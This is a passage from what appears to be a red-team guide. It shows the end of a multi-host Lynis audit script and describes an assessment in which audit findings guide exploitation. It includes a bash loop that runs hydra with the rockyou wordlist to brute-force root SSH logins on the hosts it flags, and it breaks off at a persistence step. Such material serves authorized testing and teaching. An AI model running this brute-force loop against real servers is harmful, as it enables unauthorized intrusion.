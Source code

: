 ```bash
  fi
  
  # Clean up remote host
  ssh -i "$SSH_KEY" -o StrictHostKeyChecking=no "$SSH_USER@$host" "sudo rm -f /tmp/lynis-report.dat" > /dev/null 2>&1
  
done < "$HOSTS_FILE"

echo ""
echo "Scanning complete. Reports saved to $REPORT_DIR"
echo "Summary available at $SUMMARY_FILE"

### Example: Hardening Assessment of Linux Servers

During a red team assessment for a cloud service provider, we used Lynis to identify security weaknesses in their Linux infrastructure:

1. **Initial Setup**:
   - Deployed our multi_lynis_scan.sh script across their server farm
   - Created custom audit profiles focusing on critical security controls
   - Established baseline hardening scores for different server roles

2. **Assessment Process**:
   - Ran comprehensive audits on web servers, database servers, and application servers
   - Collected and analyzed reports centrally
   - Generated hardening indexes for each server type

3. **Key Findings**:
   - Discovered inconsistent security configurations across similarly purposed servers
   - Identified numerous SSH configuration weaknesses
   - Found several servers with vulnerable kernel versions
   - Detected unauthorized packages and services on production servers

4. **Exploitation of Findings**:
   We used the audit results to guide our exploitation:

   ```bash
   # Extract SSH configuration issues
   grep -A 5 "SSH" */lynis-output.txt > ssh_issues.txt
   
   # Target vulnerable SSH configurations
   for host in $(grep "PermitRootLogin yes" ssh_issues.txt | cut -d "/" -f 1); do
     echo "Attempting brute force on $host"
     hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://$host
   done
   ```

   This approach yielded unauthorized access to three critical servers, demonstrating the real-world impact of configuration weaknesses.

5. **Pivoting Using Findings**:
   We also leveraged package management issues to establish persistence:
